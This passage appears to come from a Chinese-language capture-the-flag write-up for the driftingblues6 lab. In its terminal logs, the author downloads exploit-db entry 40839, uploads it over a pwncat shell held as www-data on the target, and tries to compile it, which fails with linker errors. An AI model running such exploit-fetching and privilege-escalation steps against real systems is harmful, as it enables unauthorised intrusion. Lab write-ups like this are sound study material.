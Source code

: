 明显这个漏洞很早了，可以尝试利用一下：

```bash
# kali
┌──(kali💀kali)-[~/temp/driftingblues6]
└─$ wget https://www.exploit-db.com/download/40839                                                                               
--2024-04-12 02:19:20--  https://www.exploit-db.com/download/40839
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.13
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.13|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [application/txt]
Saving to: ‘40839’

40839        100%[=========================================================================>]   4.89K  --.-KB/s    in 0s      

2024-04-12 02:19:22 (288 MB/s) - ‘40839’ saved [5006/5006]

┌──(kali💀kali)-[~/temp/driftingblues6]
└─$ ls
40839  48943.py  49620.py  creds.txt  db.png  hash.txt  revershell.php  spammer.zip  spammer.zip.tmp

┌──(kali💀kali)-[~/temp/driftingblues6]
└─$ mv 40839 exp.c
```

```bash
# attacked
(remote) www-data@driftingblues:/tmp$ 
(local) pwncat$ lpwd
/home/kali/temp
(local) pwncat$ lcd driftingblues6
(local) pwncat$                                                                                                                                         
(remote) www-data@driftingblues:/tmp$ 
(local) pwncat$ upload exp.c
./exp.c ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 5.0/5.0 KB • ? • 0:00:00[02:20:09] uploaded 5.01KiB in 0.25 seconds                                                                                                 upload.py:76
(local) pwncat$                                                                                                                                         
(remote) www-data@driftingblues:/tmp$ gcc exp.c -o exp
/tmp/ccb68bKo.o: In function `generate_password_hash':
exp.c:(.text+0x1e): undefined reference to `crypt'
/tmp/ccb68bKo.o: In function `main':
exp.c:(.text+0x4cd): undefined reference to `pthread_create'
exp.c:(.text+0x501): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
(remote) www-data@driftingblues:/tmp$ chmod +x exp.c
(remote) www-data@driftingblues:/tmp$ gcc exp.c -o exp
/tmp/ccy2hEqS.o: In function `generate_password_hash':
exp.c:(.text+0x1e): undefined reference to `crypt'
/tmp/ccy2hEqS.o: In function `main':
exp.c:(.text+0x4cd): undefined reference to `pthread_create'
exp.c:(.text+0x501): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
```
